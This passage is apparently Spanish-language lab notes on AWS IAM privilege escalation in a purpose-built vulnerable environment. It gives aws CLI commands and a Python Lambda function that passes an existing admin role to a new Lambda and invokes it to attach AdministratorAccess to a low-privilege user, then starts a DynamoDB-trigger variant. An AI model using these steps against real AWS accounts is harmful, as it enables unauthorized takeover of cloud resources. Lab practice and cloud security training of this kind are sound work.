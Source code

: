 Crear un role: AWS Service y Caso de uso lambda, Policy AdministratorAccess  

```bash
aws iam create-access-key --user-name privesc15-PassExistingRoleToNewLambdaThenInvoke-user  

aws configure --profile privesc15  
```

Crear una función maliciosa con el siguiente contenido:  
```bash
cat maliciuos_Function.py  
```

```python
import boto3
def lambda_handler(event, context):
	client = boto3.client('iam')
	response = client.attach_user_policy(UserName='privesc15-PassExistingRoleToNewLambdaThenInvoke-user', PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
	return response
  
```
	
comprimir este script a un archivo comprimido llamado function.zip  

```bash
aws lambda create-function --function-name privesc1 --runtime python3.9 --role arn:aws:iam::579852752421:role/Fortress-Lambda --handler maliciuos_Function.lambda_handler --zip-file fileb://function.zip --region us-east-2 --profile privesc15  

aws lambda invoke --function-name privesc1 output.txt --region us-east-2 --profile privesc15  

cat output.txt  

aws configure --profile privesc15  
```
		
## PassRoleToNewLambdaThenTriggerWithNewDynamo  
### Permisos Requeridos: iam:PassRole, lambda:CreateFunction, lambda:CreateEventSourceMapping, dynamodb:PutItem, dynamodb:CreateTable  

```bash
aws iam list-attached-user-policies --user-name privesc16-PassRoleToNewLambdaThenTriggerWithNewDynamo-user  

aws iam get-policy-version --policy-arn arn:aws:iam::579852752421:policy/privesc16-PassRoleToNewLambdaThenTriggerWithNewDynamo --version-id v1  
```

Crear un role: AWS Service y Caso de uso lambda, Policy AdministratorAccess  

```bash
aws iam create-access-key --user-name privesc16-PassRoleToNewLambdaThenTriggerWithNewDynamo-user  

aws sts get-caller-identity --profile privesc16  
```
